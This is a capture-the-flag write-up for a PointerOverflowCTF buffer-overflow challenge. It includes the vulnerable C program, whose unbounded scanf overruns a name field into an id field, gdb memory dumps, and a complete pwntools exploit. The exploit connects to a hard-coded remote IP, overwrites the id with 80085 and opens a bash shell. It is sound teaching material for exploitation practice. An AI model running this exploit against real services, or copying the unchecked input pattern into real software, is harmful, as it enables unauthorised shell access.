


# pointeroverflowctf - Exploit 200 "Overrun and Outdone"
## Table of Contents
- [Introduction](#introduction)
- [Code Analysis](#code-analysis)
- [Debugging](#Debugging)
- [Exploit Development](#exploit-development)
- [Usage](#usage)
- [Results](#results)
- [Conclusion](#conclusion)
- [References](#references)

## Introduction
<p align="center">
 
 </p>

The User Record application has a buffer overflow vulnerability due to improper handling of user input. The `name` field in the `user_record` struct has a fixed size, which allows for an overflow when a longer string is provided. This exploit demonstrates how to manipulate the memory layout to change the `id` variable.

## Code Analysis

To gain privileged shell access in the User Record application, we target the ROOT_ID defined as 80085, The structure user_record has a total size of 32 bytes so with no padding, allowing us to exploit a buffer overflow in the name field to overwrite the adjacent id field directly. By crafting an input that exceeds the buffer size, we can set the id to 80085, granting access to the debug shell.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>

#define GUEST_ID 101
#define ROOT_ID 80085

struct user_record {
	char name[28];
	int id;
};

void sig_handler(int signum) {

	printf("Timeout\n");
	exit(0);

}

void init() {

	alarm(60);
	signal(SIGALRM, sig_handler);

	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	chdir(getenv("HOME"));

}

int get_int() {

	int r;

	scanf(" %d", &r);
	while(getchar() != '\n');

	return r;

}

int main() {

	int choice;
	struct user_record u = {
		"User",
		GUEST_ID
	};

	init();

	printf("Ohayoooo, %s-senpai!! ☆ ～('▽^人)~ Welcome to your wildest dreams!\n", u.name);

	while(1) {

		printf("\nWhat can I do for you today, %s-senpai? UwU ♪(´▽`)\n", u.name);
		printf(" (1) ☆~ Rename yourself, nya! ~☆\n");
		printf(" (2) ★~ Become a super-duper admin! ~★\n");
		printf(" (3) ☾~ Access Debug Mode, teehee ~☽\n");
		printf(" (4) ✧~ Leave me?! Nooo... ~✧ (Quit the program)\n");
		printf("Your Choice, senpai: ");
		choice = get_int();

		if (choice == 1) {

			printf("Oooh! A new name, how exciting! (≧◡≦) Enter your new username, %s-senpai: ", u.name);
			scanf("%s", u.name);

		} else if (choice == 2) {

			printf("Ehehe, gomen'nasai %s, but the admin account is like... totally locked, desu~! (≧▽≦)/\n", u.name);

		} else if (choice == 3) {

			if (u.id == GUEST_ID) {
				printf("Oh no no no, %s-chan! Guests aren't allowed to use this feature, teehee! (≧ω≦)\n", u.name);
			} else if (u.id == ROOT_ID) {
				printf("Sugoi! Starting debug shell just for you, %s-sama~! (っ＾▿＾)\n", u.name);
				execl("/bin/bash", "/bin/bash", NULL);
			} else {
				printf("Hmmm... I don't know what kind of user you are, %s... so mysterious! (´･ω･`)\n", u.name);
			}

		} else if (choice == 4) {
			printf("N-Nani?! You're leaving me, %s-senpai?! ｡ﾟ･ (>﹏<) ･ﾟ｡ Sayonaraaa... come back soon, kay?! (~￣▽￣)~\n", u.name);
			exit(0);

		} else {
			printf("Eh? That's not an option, silly %s! (⁄ ⁄>⁄ ▽ ⁄<⁄)\n", u.name);
		}
	}
	return 0;
}
```
## Debugging 
### using gdb :

set name -> "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa" -> 'a' 29 times

```shell
(gdb) x/32bx &u.name
0x7fffffffde20: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde28: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde30: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde38: 0x61  0x61  0x61  0x61  0x61  0x00  0x00  0x00

(gdb) x/32bx &u.id
0x7fffffffde3c: 0x61  0x00  0x00  0x00  0x00  0xdf  0xff  0xff
0x7fffffffde44: 0xff  0x7f  0x00  0x00  0x00  0x00  0x00  0x00
0x7fffffffde4c: 0x01  0x00  0x00  0x00  0x01  0x00  0x00  0x00
0x7fffffffde54: 0x00  0x00  0x00  0x00  0xba  0x5d  0xde  0xf7

(gdb) print u.id
$4 = 97
```

The first byte of u.id (0x61) was overwritten by the overflow from u.name.
This means that u.id now holds the value 97, which is the ASCII code for the character 'a'

so for set u.id to 80085 ->  in hex 0x000138D5
In little-endian representation, the least significant byte comes first. Therefore, 80085 (0x000138D5) is stored in memory as 0xD5 0x38 0x01 0x00

## Exploit Development

```py
from pwn import *

# connection to the remote service
p = remote('35.184.182.18', 32001)

# Create 28 'A's followed by the bytes 0xD5 0x38 0x01 0x00
payload = b"A" * 28 + b"\xd5\x38\x01\x00"

p.recvuntil(b'Your Choice, senpai: ')
p.sendline(b'1')

p.sendline(payload)

p.recvuntil(b'Your Choice, senpai: ')
p.sendline(b'3')

p.interactive()

```
/$ python3 exploit200.py
<p align="center">
 
 </p>


